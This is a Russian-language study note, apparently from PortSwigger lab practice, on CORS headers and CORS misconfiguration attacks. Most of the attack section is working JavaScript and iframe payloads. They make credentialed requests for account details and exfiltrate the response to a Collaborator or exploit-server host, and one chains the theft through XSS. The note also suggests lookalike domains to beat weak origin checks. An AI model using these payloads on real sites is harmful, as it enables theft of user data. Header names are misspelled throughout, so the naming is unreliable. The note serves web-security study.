 # Введение 

>**Cross-origin Resource Sharing** - технология современных браузеров, которая позволяет предоставить веб-страницам доступ к ресурсам другого домена.

> **CORS** сравнивает **схему** (протокол передачи данных), **порт** и **домен верхнего уровня.** 
###### Acess-Control-Alow-Origin
Поле, отвечающее за доверенные веб-домены. Если оно настроено неправильно - например подставляется динамически, то это будет уязвимостью.
> Принимает 3 значения: **\***, **\<origin>**, **null**.
###### Acess-Control-Alow-Credentials
Позволяет передавать **cookie** в значении **true** или запрещает в - **false**.
Если сервер настроен с подстановочным знаком " **\*** " в качестве значения заголовка **Acess-Control-Alow-Origin**, то использование учётных данных не допускается.

###### Acess-Control-Alow-Methods
Указывает допустимые для запроса методы: PUT, POST, OPTIONS.

###### Acess-Control-Alow-Headers
Указывает дополнительные разрешённые заголовки в запросе.

###### Acess-Control-Alow-Credentials
сообщает браузерам, разрешает ли сервер кросс-оригинальные HTTP-запросы, содержащие учетные данные.

###### Acess-Control-Max-Age: \<delta-seconds>
Количество секунд, на которое запрос может быть кеширован. Максимальное значение в Firefox составляет [24 часа](https://dxr.mozilla.org/mozilla-central/rev/7ae377917236b7e6111146aa9fb4c073c0efc7f4/netwerk/protocol/http/nsCORSListenerProxy.cpp#1131) (86400 секунд), в Chromium [10 минут](https://cs.chromium.org/chromium/src/services/network/public/cpp/cors/preflight_result.cc?rcl=43ab0ff8fdcf3a10a89c4d0d0421f461967f2bd5&l=36) (600 секунд). Chromium также определяет значение по умолчанию [5](https://cs.chromium.org/chromium/src/services/network/public/cpp/cors/preflight_result.cc?rcl=43ab0ff8fdcf3a10a89c4d0d0421f461967f2bd5&l=26) секунд. Значение **-1** отменяет кеширование, отправляя предзапрос перед каждым запросом.

### Pre-fight Requests
>![[Pre-fight Requests.png]]
# PortSwigger статья
https://portswigger.net/web-security/cors#what-is-cors-cross-origin-resource-sharing
# Уязвимости
>![[CORS уязвимости.png]]

### CORS при динамической подстановки значения Acess-Control-Alow-Origin
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
Если в значение ответа сервера **Acess-Control-Alow-Origin** динамически подставляется значение запроса **Origin**, то можно использовать **exploit сервер** со следующим пэйлоадом, чтобы получить данные пользователя:

```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>
```

### CORS: Неправильный парсинг заголовка Origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack
Можно попытаться подставить заголовок **Origin: null** и на **exploit** сервере использовать **iframe**. Если работает заголовок **Origin: null**, то может отработать iframe, ведь он по умолчанию подставляет заголовок Origin: null:
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>"</iframe>
```
Или если сайт, например, готов принимать только **Origin: normal-website.com**, но неправильно проверяет стоку, хакер может попытаться зарегистрировать домен **hackersnormal-website.com** или **normal-website.com.evil-user.net** и отправить запрос с него.

### XSS через доверительные отношения CORS
Даже "правильно" настроенный CORS устанавливает доверительные отношения между двумя источниками. Если сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), то злоумышленник может использовать XSS для внедрения JavaScript, который использует CORS для получения конфиденциальной информации с сайта, доверяющего уязвимому приложению.
https://portswigger.net/web-security/cors/lab-breaking-https-attack
Пусть существует уязвимый к XSS ресурс через query параметры: **stock.domain-A.com**, и он является доверенным для **domain-A.com** через **Origin**.
В таком случае мы может использовать на **exploit** сервере следующие нагрузки:
```javascript 
<script> document.location="http://stock.domain-A.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://domain-A/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>
```
или возьмём ранее созданный пэйлоад:
```javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://domain-A/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        var all = this.responseText;
        fetch('https://COLLABORATOR.oastify.com', { method: 'POST', mode: 'no-cors', body: all });
    };
</script>
```
вырежем `\n` и подставим в `document.location="http://stock.domain-A.com/?productId=...&storeId=1`:
```javascript
<script>
    document.location="http://stock.domain-A.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://domain-A/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var all = this.responseText; fetch('https://COLLABORATOR', {method: 'POST', mode: 'no-cors', body: all })};%3c/script>&storeId=1"
</script>
```
или в URL кодировки вместо использования **`%3c/script>`**.